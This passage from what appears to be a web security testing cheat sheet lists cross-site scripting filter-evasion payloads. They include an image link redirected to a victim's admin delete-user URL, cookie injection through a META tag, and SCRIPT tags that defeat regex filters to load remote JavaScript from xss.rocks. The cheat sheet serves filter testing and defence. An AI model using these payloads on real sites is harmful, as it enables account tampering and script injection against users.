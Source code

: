 #### IMG Embedded Commands part II 
This is more scary because there are absolutely no identifiers that make it look suspicious other than it is not hosted on your own domain. The
vector uses a 302 or 304 (others work too) to redirect the image back to a command. So a normal `<IMG SRC="httx://badguy.com/a.jpg">` could
actually be an attack vector to run commands as the user who views the image link. Here is the `.htaccess` (under Apache) line to accomplish
the vector: 
```
     Redirect 302 /a.jpg http://victimsite.com/admin.asp&deleteuser
```
 
(Thanks to Timo for part of this) 
### Cookie Manipulation 
This method is pretty obscure but there are a few examples where `<META` is allowed and it can be used to overwrite cookies. There are other
examples of sites where instead of fetching the username from a database it is stored inside of a cookie to be displayed only to the user who
visits the page. With these two scenarios combined you can modify the victim\'s cookie which will be displayed back to them as JavaScript (you
can also use this to log people out or change their user states, get them to log in as you, etc):
 
```
    <META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>"> 
```
 ### XSS Using HTML Quote Encapsulation
 This attack was originally tested in IE so your mileage may vary. For
performing XSS on sites that allow `<SCRIPT>` but don\'t allow `<SCRIPT SRC...` by way of a regex filter `/\<script\[^\>\]+src/i`, do
the following: 
```
     <SCRIPT a=">" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```
 
If you are performing XSS on sites that allow `<SCRIPT>` but don\'t allow `\<script src...` due to a regex filter that does
`/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\](+))?)+\\s\*|\\s\*)src/i` (This is an important one, because this regex has been seen in the
wild): 
```
     <SCRIPT =">" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```
 
Another XSS to evade the same filter: `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\](+))?)+\\s\*|\\s\*)src/i`:
 
```
    <SCRIPT a=">" '' SRC="httx://xss.rocks/xss.js"></SCRIPT> 
```
 Yet another XSS that evades the same filter:
`/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\](+))?)+\\s\*|\\s\*)src/i` 
Generally, we are not discussing mitigation techniques, but the only thing that stops this XSS example is, if you still want to allow
`<SCRIPT>` tags but not remote script is a state machine (and of course there are other ways to get around this if they allow `<SCRIPT>` tags),
use this: 
```
     <SCRIPT "a='>'" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```
 